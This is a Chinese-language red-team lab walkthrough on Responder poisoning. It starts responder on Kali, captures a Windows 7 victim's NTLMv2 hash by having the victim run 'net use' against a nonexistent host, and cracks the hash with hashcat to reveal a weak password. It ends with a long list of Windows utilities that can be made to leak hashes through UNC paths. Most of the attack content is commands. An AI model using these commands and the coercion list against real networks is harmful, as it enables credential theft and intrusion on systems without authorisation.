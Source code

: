 ```bash
# kali 自带
responder -I eth0 -rPv
```

### 通过命令获取hash并破解

在 windows7 上尝试使用 net use 访问一个不存在的主机名。
```
net use \\what\2
```

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/Responder欺骗/2.png)

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/Responder欺骗/3.png)

可以看到，在受害机器输入命令后，responder 已经获取到了受害机器的 NTLM V2 hash 值，由于 SMB 会尝试多次认证，所以会捕捉到多次 hash 值，在 responder 上获取到的 hash 都会保存在 `/usr/share/responder/logs/` 文件夹下，且会根据 IP、协议进行命名。

获取 hash 值之后，我们尝试使用 kali 自带的 hashcat 对这段 hash 进行暴力破解

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/Responder欺骗/4.png)

可以看到跑出了弱口令 Abcd1234

下列命令都可以使 responder 获得 NTLV V2 hash。
```bash
net.exe use \hostshare
attrib.exe \hostshare
cacls.exe \hostshare
certreq.exe \hostshare #(noisy, pops an error dialog)
certutil.exe \hostshare
cipher.exe \hostshare
ClipUp.exe -l \hostshare
cmdl32.exe \hostshare
cmstp.exe /s \hostshare
colorcpl.exe \hostshare #(noisy, pops an error dialog)
comp.exe /N=0 \hostshare \hostshare
compact.exe \hostshare
control.exe \hostshare
convertvhd.exe -source \hostshare -destination \hostshare
Defrag.exe \hostshare
diskperf.exe \hostshare
dispdiag.exe -out \hostshare
doskey.exe /MACROFILE=\hostshare
esentutl.exe /k \hostshare
expand.exe \hostshare
extrac32.exe \hostshare
FileHistory.exe \hostshare #(noisy, pops a gui)
findstr.exe * \hostshare
fontview.exe \hostshare #(noisy, pops an error dialog)
fvenotify.exe \hostshare #(noisy, pops an access denied error)
FXSCOVER.exe \hostshare #(noisy, pops GUI)
hwrcomp.exe -check \hostshare
hwrreg.exe \hostshare
icacls.exe \hostshare
licensingdiag.exe -cab \hostshare
lodctr.exe \hostshare
lpksetup.exe /p \hostshare /s
makecab.exe \hostshare
msiexec.exe /update \hostshare /quiet
msinfo32.exe \hostshare #(noisy, pops a "cannot open" dialog)
mspaint.exe \hostshare #(noisy, invalid path to png error)
msra.exe /openfile \hostshare #(noisy, error)
mstsc.exe \hostshare #(noisy, error)
netcfg.exe -l \hostshare -c p -i foo
```